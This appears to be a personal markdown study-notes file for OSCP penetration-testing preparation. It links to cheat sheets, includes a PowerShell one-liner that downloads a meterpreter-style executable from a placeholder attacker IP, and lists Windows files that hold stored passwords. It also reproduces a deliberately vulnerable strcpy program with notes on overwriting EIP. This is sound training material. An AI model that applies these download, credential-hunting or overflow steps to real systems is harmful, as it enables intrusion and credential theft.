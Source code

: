 # TJ Null Path to Try Harder
TJNull presented at BSidesDC 2019.  I've been using his blog as a good reference point to start for things to review BEFORE signing up for PWK.  Some content I decided to put in their own `md` files.  Links can be found here: https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html
# Active Recon

## Service Enum - Pen Testing Cheat Sheet

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
Local File Inclusion (LFI): https://highon.coffee/blog/lfi-cheat-sheet/
Linux Commands: https://highon.coffee/blog/linux-commands-cheat-sheet/ 
`systemd`/`systemctl` cheat sheet: https://highon.coffee/blog/systemd-cheat-sheet/
Reverse Shell Cheat Sheet: https://highon.coffee/blog/reverse-shell-cheat-sheet/

## Transferring Files to Your Account - Linux --> Windows
https://blog.ropnop.com/transferring-files-from-kali-to-windows/
- When on Windows (no `curl` or `wget`) use PS `WebClient` object: `(new-object System.Net.WebClient).DownloadFile('http://IP_ADDR/met888.exe','C:\Users\AdminUser\
Desktop\met888.exe')`

## Transferring Files to Your Account - Tools -
- `bitsadmin` - Windows command line tool to create download/upload jobs and monitor progress

## Privileger Escalation
### Windows Guides - Fundamentals
http://www.fuzzysecurity.com/tutorials/16.html
Location to check for config files w/stored passwords:
Typically these are the directories that contain the configuration files (however it is a good idea to check the entire OS):
- c:\sysprep.inf
- c:\sysprep\sysprep.xml
- %WINDIR%\Panther\Unattend\Unattended.xml
- %WINDIR%\Panther\Unattended.xml

In addition to Groups.xml (stored in SYSVOL) several other policy preference files can have the optional "cPassword" attribute set:
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes

### Windows Priv Esc Guide
Commands to run to check for XAMPP, Apache, or PHP and check for config files:
`dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf`

## Buffer Overflows
### Corelan
### (Part I)[https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/]
- Most functions start with: `PUSH EBP` followed by `MOV EBP,ESP`

Source Code:
```
#include  

void do_something(char *Buffer)
{
     char MyVar[128];
     strcpy(MyVar,Buffer);
}

int main (int argc, char **argv)
{
     do_something(argv[1]);
}
```

Register
```
00401290  /$ 55             PUSH EBP
00401291  |. 89E5           MOV EBP,ESP
00401293  |. 81EC 98000000  SUB ESP,98
00401299  |. 8B45 08        MOV EAX,DWORD PTR SS:[EBP+8]             ; |
0040129C  |. 894424 04      MOV DWORD PTR SS:[ESP+4],EAX             ; |
004012A0  |. 8D85 78FFFFFF  LEA EAX,DWORD PTR SS:[EBP-88]            ; |
004012A6  |. 890424         MOV DWORD PTR SS:[ESP],EAX               ; |
004012A9  |. E8 72050000    CALL                 ; \strcpy
004012AE  |. C9             LEAVE
004012AF  \. C3             RETN
```
- `SUB ESP,98` - decreemnt ESP by a certain number of bytes (most likely > 128 bytes) - gives space for the MyVar variable
- `MOV` and `LEA` instructions basically setup parameters for `strcpy` function taking pointer where `argv[1]` sits and copying data from `MyVar` into it
- `strcpy()` does not `PUSH` instructions to put data on stack, it reads a byte and writes it to the stack, using an index (i.e. `ESP`, `ESP+1`, `ESP+2`)
    - So `ESP` still points to the beginning of the string
- Means if data in Buffer is > `0x98`, it will overwrite saved `EBP` and eventually `EIP`
- `ESP` still points to beginning of string, `strcpy()` completes as if nothing is wrong, then function kicks in.  Moving `ESP` back to where saved `EIP` was stored and issue a `RET`

- _Stack Based Overflow_/_Stack Buffer Overflow_ - When a buffer on the stack overflows
- _Stack Overflow_ - trying to write past the end of the stack frame

- A quick note before proceeding : On intel x86, the addresses are stored little-endian (so backwards).  The AAAA you are seeing is in fact AAAA :-)  (or, if you have sent ABCD in your buffer, EIP would point at 44434241 (DCBA)

Continue at: `Determining the buffer size to write exactly into EIP`


# Web App Attacks
## [Burp Suite Webinar](https://www.youtube.com/watch?v=h2duGBZLEek&t=28s)
- Github for Enumeration lists: `danielmiessler/Seclists`